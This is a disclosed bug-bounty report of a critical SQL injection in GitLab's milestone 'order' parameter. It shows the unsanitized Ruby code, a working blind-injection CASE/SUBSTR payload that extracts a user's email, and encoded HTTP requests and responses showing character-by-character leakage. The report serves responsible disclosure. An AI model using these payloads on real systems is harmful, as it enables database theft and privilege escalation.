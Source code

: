 # SQL injection in MilestoneFinder order method

## Report Details
- **Report ID**: 298176
- **URL**: https://hackerone.com/reports/298176
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-12-15T03:15:38.095Z
- **Disclosed**: 2018-04-27T02:20:24.581Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
The `MilestoneFinder` is a class used to find milestones based on group or project identifiers. The class is used in multiple controllers. It allows to filter based on state and can be used to order the result set. One of the uses can be found in the `Groups::MilestonesController`. When the **index** action is requested, the `milestones` method is called. Here's the first two lines of the method:

**app/controllers/groups/milestones_controller.rb**
```ruby
def milestones
    search_params = params.merge(group_ids: group.id)

    milestones = MilestonesFinder.new(search_params).execute
    # ...
```

This code takes all the parameters, merges the group found in the URL (that your account is authorized for) and calls the `execute` method. Here's the method:

**app/finders/milestone_finder.rb**
```ruby
  def execute
    return Milestone.none if project_ids.empty? && group_ids.empty?

    items = Milestone.all
    items = by_groups_and_projects(items)
    items = by_title(items)
    items = by_state(items)

    order(items)
  end
```

The `order` call on the last line is implemented as following: 

**app/finders/milestone_finder.rb**
```ruby
 def order(items)
    if params.has_key?(:order)
      items.reorder(params[:order])
    else
      order_statement = Gitlab::Database.nulls_last_order('due_date', 'ASC')
      items.reorder(order_statement)
    end
  end
```

As can be seen on line 2 of the method, `reorder` is called without any form of sanitization. This leads to a SQL injection. To verify, create a new group on a GitLab instance. Then, create two milestones. To exploit this vulnerability a payload needs to be generated. To do so, start by sending a JSON request to the group milestones endpoint. Here's a request example:

**Request**
```
GET /groups/my-test-group/-/milestones HTTP/1.1
Host: gitlab.com
Accept: application/json
...
```

**Response**
```json
[
  {
    "title": "3",
    "name": "3",
    "id": 429944
  },
  {
    "title": "4",
    "name": "4",
    "id": 429943
  }
]
```

Then, consider the following SQL injection payload:

```sql
(CASE SUBSTR((SELECT email FROM users WHERE username = 'jobertabma'), 1, 1) WHEN 'a' THEN (CASE id WHEN 429944 THEN 2 ELSE 1 END) ELSE 1 END)
```

This payload does three things: it fetches the `email` column from the `users` table where the `username` matches my own username. This can be any query that the attacker wants to execute on the database server. Then, it takes the first character of the `email` (the `SUBSTR(<>, 1, 1)` call) and compares that to a `a`. If that's the case, it'll compare the `id` of the current milestone to `429944`. If that is true, it'll sort on column number 2. If that is **not** the case, it'll sort on column number 1. The order of both milestones in the response will reveal whether the first character of the email address matches the character `a`.

To prepare the payload, replace `429944` in the payload with a milestone ID of your account and URL encode it:

**Encoded payload**
```
%28CASE%20SUBSTR%28%28SELECT%20email%20FROM%20users%20WHERE%20username%20%3D%20%27jobertabma%27%29%2C%201%2C%201%29%20WHEN%20%27a%27%20THEN%20%28CASE%20id%20WHEN%20429944%20THEN%202%20ELSE%201%20END%29%20ELSE%201%20END%29
```

Now submit the first request:

**Request 1 (`a`)**
```
GET /groups/xxxaowudhaiwudhaiwudhb/-/milestones?state=open&&order=%28CASE%20SUBSTR%28%28SELECT%20email%20FROM%20users%20WHERE%20username%20%3D%20%27jobertabma%27%29%2C%201%2C%201%29%20WHEN%20%27a%27%20THEN%20%28CASE%20id%20WHEN%20429944%20THEN%202%20ELSE%201%20END%29%20ELSE%201%20END%29 HTTP/1.1
Host: gitlab.com
Accept: application/json
...
```

**Response 1**
```
HTTP/1.1 200 OK
Server: nginx
...

[{"title":"3","name":"3","id":429944},{"title":"4","name":"4","id":429943}]
```

In the response above the milestones are sorted **descending** based on the ID. The attacker can enumerate over all characters. When it would send a payload that checks for the letter `j`, the following behavior is observer:

**Request 2 (`j`)**
```
GET /groups/xxxaowudhaiwudhaiwudhb/-/milestones?state=open&&order=%28CASE%20SUBSTR%28%28SELECT%20email%20FROM%20users%20WHERE%20username%20%3D%20%27jobertabma%27%29%2C%201%2C%201%29%20WHEN%20%27j%27%20THEN%20%28CASE%20id%20WHEN%20429944%20THEN%202%20ELSE%201%20END%29%20ELSE%201%20END%29 HTTP/1.1
Host: gitlab.com
Accept: application/json
...
```

**Response 2**
```
HTTP/1.1 200 OK
Server: nginx
...

[{"title":"4","name":"4","id":429943},{"title":"3","name":"3","id":429944}]
```

Because the first character of my email is actually `j`, the result is now sorted by the title of the milestones. An attacker can enumerate over all characters of a column and observe the order. Once the order reverses it knows what the value of the character is. The index of the `SUBSTR` function can be changed to guess characters on other positions of the value.

This has been tested against GitLab 10.2.4 (the latest version, also used on gitlab.com).

## Impact

An attacker can extract all information from the a GitLab instance's database, including private access and shell tokens. These can be used to elevate the user's privileges, which may lead to arbitrary code execution.

## Attachments
No attachments
